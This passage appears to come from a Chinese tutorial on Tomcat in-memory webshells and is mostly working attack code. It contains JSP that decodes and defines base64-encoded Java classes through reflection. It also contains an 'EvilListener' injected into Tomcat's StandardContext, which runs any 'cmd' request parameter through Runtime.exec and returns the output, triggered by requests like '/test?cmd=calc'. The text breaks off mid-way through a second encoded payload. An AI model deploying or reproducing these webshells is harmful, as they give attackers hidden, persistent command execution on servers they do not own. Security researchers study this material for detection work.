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";
        byte[] bytecode = null;
        try {
                Class base64Clz = Class.forName("java.util.Base64");
                Object decoder = base64Clz.getMethod("getDecoder").invoke(null);
                bytecode = (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, base64Str);
        } catch (ClassNotFoundException ee) {
                Class datatypeConverterClz = Class.forName("javax.xml.bind.DatatypeConverter");
                bytecode = (byte[]) datatypeConverterClz.getMethod("parseBase64Binary", String.class).invoke(null, base64Str);
        }
        java.lang.reflect.Method defMethod = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
        defMethod.setAccessible(true);
        Class<?> clazz = (Class<?>) defMethod.invoke(Thread.currentThread().getContextClassLoader(), bytecode, 0, bytecode.length);
        if (getAndSetObjectM != null) {
                getAndSetObjectM.invoke(unsafe, page.getClass(), offset, rawModule);
        }
        clazz.newInstance();
%>
```


触发：两个的请求路径都是 `/test?cmd=calc`


### （2）Listener内存马

方式一：

```
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.*" %>
<%@ page import="jakarta.servlet.ServletRequestListener" %>
<%@ page import="jakarta.servlet.ServletRequestEvent" %>
<%@ page import="jakarta.servlet.ServletContext" %>

<%
    // 定义恶意Listener
    class EvilListener implements ServletRequestListener {
        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            // 每次请求初始化的时候处理
            System.out.println("start of listen");
            HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                try {
                    Process process = Runtime.getRuntime().exec(cmd);
                    BufferedReader br = new BufferedReader(
                            new InputStreamReader(process.getInputStream()));
                    StringBuilder sb = new StringBuilder();
                    String line;
                    while ((line = br.readLine()) != null) {
                        sb.append(line).append("\n");
                    }
                    HttpServletResponse response =
                            (HttpServletResponse) request.getAttribute("javax.servlet.response");
                    response.getWriter().write(sb.toString());
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
        }

        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
            // 每次请求结束时的处理
            System.out.println("ends of listen");
        }
    }

    // 注入流程
    // 1. 获取StandardContext
    ServletContext servletContext = request.getSession().getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    // 2. 创建并添加Listener
    ServletRequestListener evilListener = new EvilListener();
    standardContext.addApplicationEventListener(evilListener);

    out.println("Listener注入成功!");
%>
```

方式二：

```
<%!
    public static class ClassDefiner extends ClassLoader {
        public ClassDefiner(ClassLoader classLoader) {
            super(classLoader);
        }

        public Class<?> defineClass(byte[] code) {
            return defineClass(null, code, 0, code.length);
        }
    }
%>

<%
    String base64Str = "yv66vgAAAD0BlAoAAgADBwAEDAAFAAYBABBqYXZhL2xhbmcvT2JqZWN0AQAGPGluaXQ+AQADKClWCAAIAQAPc3VuLm1pc2MuVW5zYWZlCgAKAAsHAAwMAA0ADgEAD2phdmEvbGFuZy9DbGFzcwEAB2Zvck5hbWUBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7CAAQAQAJdGhlVW5zYWZlCgAKABIMABMAFAEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsKABYAFwcAGAwAGQAaAQAXamF2YS9sYW5nL3JlZmxlY3QvRmllbGQBAA1zZXRBY2Nlc3NpYmxlAQAEKFopVgoAFgAcDAAdAB4BAANnZXQBACYoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwgAIAEACWdldE1vZHVsZQoACgAiDAAjACQBAAlnZXRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7BwAmAQATW0xqYXZhL2xhbmcvT2JqZWN0OwoAKAApBwAqDAArACwBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QBAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsKAAIALgwALwAwAQAIZ2V0Q2xhc3MBABMoKUxqYXZhL2xhbmcvQ2xhc3M7CAAyAQARb2JqZWN0RmllbGRPZmZzZXQIADQBAAZtb2R1bGUHADYBAA5qYXZhL2xhbmcvTG9uZwgAOAEAD2dldEFuZFNldE9iamVjdAkANQA6DAA7ADwBAARUWVBFAQARTGphdmEvbGFuZy9DbGFzczsHAD4BAC5jb20vZXhhbXBsZS9kZW1vL01lbXNoZWxsL1JlcG9ydExpc3RlbmVySW5qZWN0BwBAAQATamF2YS9sYW5nL0V4Y2VwdGlvbgoAPQBCDABDAEQBAApnZXRDb250ZXh0AQASKClMamF2YS91dGlsL0xpc3Q7CwBGAEcHAEgMAEkASgEADmphdmEvdXRpbC9MaXN0AQAIaXRlcmF0b3IBABYoKUxqYXZhL3V0aWwvSXRlcmF0b3I7CwBMAE0HAE4MAE8AUAEAEmphdmEvdXRpbC9JdGVyYXRvcgEAB2hhc05leHQBAAMoKVoLAEwAUgwAUwBUAQAEbmV4dAEAFCgpTGphdmEvbGFuZy9PYmplY3Q7CgA9AFYMAFcAHgEACGdldFNoZWxsCgA9AFkMAFoAWwEABmluamVjdAEAJyhMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL09iamVjdDspVgoAPwBdDABeAAYBAA9wcmludFN0YWNrVHJhY2UIAGABAChjb20uZXhhbXBsZS5kZW1vLk1lbXNoZWxsLlJlcG9ydExpc3RlbmVyCABiAQiUSDRzSUFBQUFBQUFBLzQxVzJYOFRWUlQrYmpydFRkTnBTNHNGUXhXcnFDUnBhNUFpUzFLVmxrV3FTVUFLa1lMYmtGN2FnV3hPSmdWWDNQZDllZkxCTjNuVmw3aisxQ2Y5L1h6eXY5Qi9RdXQzWjZacEEyM2hZYlo3enozbk85OVo1dno1MzQrL0FMZ2ZYMFFRUXB1RVlhSWRIUUliemxzTFZySm9sZWVTUjgrZVZ3VlhvR1BjTHR2dUF3SnRzWGcrZ2pBNkpTSW11bUFLYkR0dlhiQWMxMHJXbExOUVZHNXkybjhlVjgvVVZjMDl0S0RLMU5BM3A5eldEWUU3WXZITStvZlRFajBDMjY4V21uZmRhdklJYjYzU1lXd2d3a0pwdGd2ZDZEZXhFVGNKbURSOHpIS3NrbktWSTNCM0xMUHMzclRyMk9XNWRQemFwUWcyWWJQRXpTYWlXa21zVUNrbDFTV3JWQzJxNUt3cVZaSlpWYXJOcTJJeGVWeFZLNDZic1d1dUttc0Q0U1Y3V3NXZ2lWdHdxOENtT1EyeVZxMlVhK3F3VXlrMUtXaUI0N1BkQWlkWWtyaU5JSzVQZzI5Qlc3N2R4QjNZSnRCRHkxUGxhdDJsWThvcUNjVFhKc0N1SkZlSXBydXdGWGVadUJ2YkJYcXA1bWpkWGFGbis5ckJXeWxJSnVOSVNBeWJHTUdvd01aVkxBa1lmTXdLdE1mT1RNYW5Ja2hpaDhTOUpuWmliTzM4YW9YVGZ0R3hYU1VncVdKcUtwNlh1Ry9KbU9mcGlYbW5jdEU2V3lRNXU3REh4RjZkNmIxVnVrOFZWdUhDQ2NjcXFEQlMxT0Q0d2RFc2pwdXNENlo5TjkwL2JLdmliTjRxMW1sbDd5cGhXeit2QXFFdzlqTkZuQ0JRRXBNdElBOWRLcWlxYTFmS0VSekVJWW5ESmg3Q0VSYlBzc2p4ZXRtMVM0UVEwU20xOURFUVcya3JXRTVyTFErYmVBUVpNcXd1cVlLTzJ2b3dqem1WZ3FyVmVEU0hveExIZEJZOTJnSWdrQkRZSEZzOWJYUTNtVFp4QWlmOVlqaFF0TFQ0eGhhSTNpTFQrakdCcmN1cnVjcDB2VER2RWIyQ2lqemFJamlOTXhLUG0zZ0NUekp1VnlsaXo2S2hnNnBRdEJ3MTY1MFhHTDJPcTQ0NlYyUklrcDQ0VVQ4TlMrS3NpUUo0ZVBNYWNreUZtbkluQ3BvQ205bEVZbU9uZFV0OEd1ZE16T2xhYnlNVWpkYzJjVjV6b0hObnVsNVZUa0ZEbFNpeTZ0ZnZlc3ZOeERoUW1hV04zb3hkVnJsNjZheHlUbGllMWY1TXBXQVY4NVpqNis5ZzBYRG5iWEtSeU54b3QwcFRVWkR0VSt6dnRsVzBuMVAwTVJhN1RsLzJtbm82bnFmTkJjdlpwVzNlYUhOSysyZFluUU9ycG8rL3ZWdmdyaHRxTDc3NEhvSFFtVW4vZmErQW1QSmZ4elJSMXlTQnY3ZXZDYUMxUHdUYjk2NERvSVVFWDN3bkcrc05VT0QvMUpnVFhzL0pXbFV2Y2hKdnQveDFmWndTejNNMXE5ejV5bXp6QjFaclJkMnNrblNycDBHM1laZG9TdWdpQ1dKOWtKZFRlVlpIT3JwbVFRZ01aZGF2ek1EMUhXd1AxMVEyTFU5WDZrNUJIYloxWm01c3pidDd0RGh1WjRNTlFlQUNweERKSjRjUDNrdjhTdklwK0d4UGZBZnhMVjlDS1BQZTRTMTJvY0s3NlF1Z2ltZjRGSEJRb3hRUGl6d01kSEx0eWVFRzVHL296aVpHK250L1FGOElEUXprUm4vSGc0bVJCcmI4aHEwcEl6SGF3RkNxUFdyOGdEc0ZVaDE5US9nNW5KTFI5cWhzSURhek94ejZDaHVpSFZIWk5oQnU0SjRyaS85Y1FUakhRN3UvcGMwd1R1SVVmeWR0SHJyZEhEckFpMU1JQnRESHdhRWYyemlESkhBVHhyaVN3czA0d3RXVC9LMmU0bGd3ZzF2WnpZWThiODRoUXRtZGNGRW4rZ1NHc1lDTDlHNk03ZmNTbnFYbktRemlPVHhQb2c1Uzl3dDRrWFlHc0I4djRUTHR6L0RVeTNpRmIvUTc0RVMvdllyWFBKeDV2STQzeU0rYkhrNWprZXJDRXB1a3ZuZEx2Q1d4VlNJdWtaUjRCMWpFRmowUEJ0dkFwTVF1QSs5cXZnVlY2bkJ3cXFFeEhhc3YrV1h3T1NpeXcvMzd2a2U2LzBIZXNsZlFsUnYyWDBlK0lZWVFlb2g3SXVCcUN6MENQUTV4dXVqaGdOQ0g3V1FyUm5hR1BUNFNWTmxQWDEyODUvazAyUFJwa0FEZTkvUkY2ZFA3Z1U5TXBFVXE4VUdIcEU0cmlRbUpEN2huVUhxaUZUMW5PajlaU0laV3hiWGhiNjVLczZRSFpKTy8yelFmb29iTDNHOVJ4MEVySU9PcGdJeGVrZjBlQjVpQVV3MWtjNlBMdW5zOGQ4YjR0WXZNM3RkMGxrZWFObm9ER3lGSytDNTI4M0taRUcyck95VHc0VkwyVXlVOHlOZVV6YjRWL29pbUxSR2t5QXB0blhya0NmejVtK0x0Zkk2TGJLS0I0N25SL3REWDZCMzVBeU0vSVQvekhVNzlPa29uWjFKRzFEQWFlQ3BxVUVveDl0MHBnMFV5bjd1eStKY1gvU2hHc1VQL3lGZFV5amgxMzg4WTcrZlhCSU0zU2FranJJY3A1c1REbEgrRUp6S3NpU3oyY0JoSjRWSFBnUWZvemhBcnpNVkhKR0luMFMzZ1k0L0FjWHhDc3VDOUxSR1lDZ2prTk1oSytaVDJkYmIwd2ZnWDBrdVUwMzJjRlBPZFYvSGFHYUl1Qk54KzVoSDUrZjk0d0NsTEx3MEFBQT09BwBkAQATamF2YS91dGlsL0FycmF5TGlzdAoAYwADCgBnAGgHAGkMAGoAawEAEGphdmEvbGFuZy9UaHJlYWQBABFnZXRBbGxTdGFja1RyYWNlcwEAESgpTGphdmEvdXRpbC9NYXA7CwBtAG4HAG8MAHAAcQEADWphdmEvdXRpbC9NYXABAAZrZXlTZXQBABEoKUxqYXZhL3V0aWwvU2V0OwsAcwBHBwB0AQANamF2YS91dGlsL1NldAoAZwB2DAB3AHgBAAdnZXROYW1lAQAUKClMamF2YS9sYW5nL1N0cmluZzsIAHoBABxDb250YWluZXJCYWNrZ3JvdW5kUHJvY2Vzc29yCgB8AH0HAH4MAH8AgAEAEGphdmEvbGFuZy9TdHJpbmcBAAhjb250YWlucwEAGyhMamF2YS9sYW5nL0NoYXJTZXF1ZW5jZTspWggAggEABnRhcmdldAoAPQCEDACFAIYBAA1nZXRGaWVsZFZhbHVlAQA4KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL09iamVjdDsIAIgBAAZ0aGlzJDAIAIoBAAhjaGlsZHJlbgsAbQCMDACNAI4BAAZ2YWx1ZXMBABgoKUxqYXZhL3V0aWwvQ29sbGVjdGlvbjsLAJAARwcAkQEAFGphdmEvdXRpbC9Db2xsZWN0aW9uCgBjAJMMAJQAlQEABmFkZEFsbAEAGShMamF2YS91dGlsL0NvbGxlY3Rpb247KVoKAGcAlwwAmACZAQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwoACgCbDACcAHgBAAh0b1N0cmluZwgAngEAGVBhcmFsbGVsV2ViYXBwQ2xhc3NMb2FkZXIIAKABAB9Ub21jYXRFbWJlZGRlZFdlYmFwcENsYXNzTG9hZGVyCACiAQAJcmVzb3VyY2VzCACkAQAHY29udGV4dAoAYwCmDACnAKgBAANhZGQBABUoTGphdmEvbGFuZy9PYmplY3Q7KVoIAKoBAA5nZXRDbGFzc0xvYWRlcgcArAEAEltMamF2YS9sYW5nL0NsYXNzOwoAPQCuDACvALABAAxpbnZva2VNZXRob2QBAF0oTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsHALIBABVqYXZhL2xhbmcvQ2xhc3NMb2FkZXIIALQBAAlnZXRMb2FkZXIKAD0AtgwAtwC4AQAUZ2V0V2ViQXBwQ2xhc3NMb2FkZXIBACsoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7CgA9ALoMALsAeAEADGdldENsYXNzTmFtZQoAsQC9DAC+AA4BAAlsb2FkQ2xhc3MKAAoAwAwAwQBUAQALbmV3SW5zdGFuY2UKAD0AwwwAxAB4AQAPZ2V0QmFzZTY0U3RyaW5nCgA9AMYMAMcAyAEADGRlY29kZUJhc2U2NAEAFihMamF2YS9sYW5nL1N0cmluZzspW0IKAD0AygwAywDMAQAOZ3ppcERlY29tcHJlc3MBAAYoW0IpW0IIAM4BAAtkZWZpbmVDbGFzcwcA0AEAAltCCQDSADoHANMBABFqYXZhL2xhbmcvSW50ZWdlcgoACgDVDADWACQBABFnZXREZWNsYXJlZE1ldGhvZAoAKAAXCgDSANkMANoA2wEAB3ZhbHVlT2YBABYoSSlMamF2YS9sYW5nL0ludGVnZXI7CADdAQAcZ2V0QXBwbGljYXRpb25FdmVudExpc3RlbmVycwoACgB2CgB8AOAMAOEAqAEABmVxdWFscwkA4wDkBwDlDADmAOcBABBqYXZhL2xhbmcvU3lzdGVtAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07CADpAQAZbGlzdGVuZXIgYWxyZWFkeSBpbmplY3RlZAoA6wDsBwDtDADuAO8BABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgsARgCmCADyAQAabGlzdGVuZXIgaW5qZWN0IHN1Y2Nlc3NmdWwKAPQA9QcA9gwA9wD4AQAQamF2YS91dGlsL0FycmF5cwEABmFzTGlzdAEAJShbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL3V0aWwvTGlzdDsKAGMA+gwABQD7AQAZKExqYXZhL3V0aWwvQ29sbGVjdGlvbjspVgoAYwBHCAD+AQAcc2V0QXBwbGljYXRpb25FdmVudExpc3RlbmVycwoAYwEADAEBAQIBAAd0b0FycmF5AQAVKClbTGphdmEvbGFuZy9PYmplY3Q7CAEEAQAQamF2YS51dGlsLkJhc2U2NAgBBgEACmdldERlY29kZXIIAQgBAAZkZWNvZGUIAQoBABZzdW4ubWlzYy5CQVNFNjREZWNvZGVyCAEMAQAMZGVjb2RlQnVmZmVyBwEOAQAdamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW0KAQ0AAwcBEQEAHWphdmEvdXRpbC96aXAvR1pJUElucHV0U3RyZWFtBwETAQAcamF2YS9pby9CeXRlQXJyYXlJbnB1dFN0cmVhbQoBEgEVDAAFARYBAAUoW0IpVgoBEAEYDAAFARkBABgoTGphdmEvaW8vSW5wdXRTdHJlYW07KVYKARABGwwBHAEdAQAEcmVhZAEABShbQilJCgENAR8MASABIQEABXdyaXRlAQAHKFtCSUkpVgoBDQEjDAEkASUBAAt0b0J5dGVBcnJheQEABCgpW0IKARABJwwBKAAGAQAFY2xvc2UKAQ0BJwoAFgB2EgAAASwMAS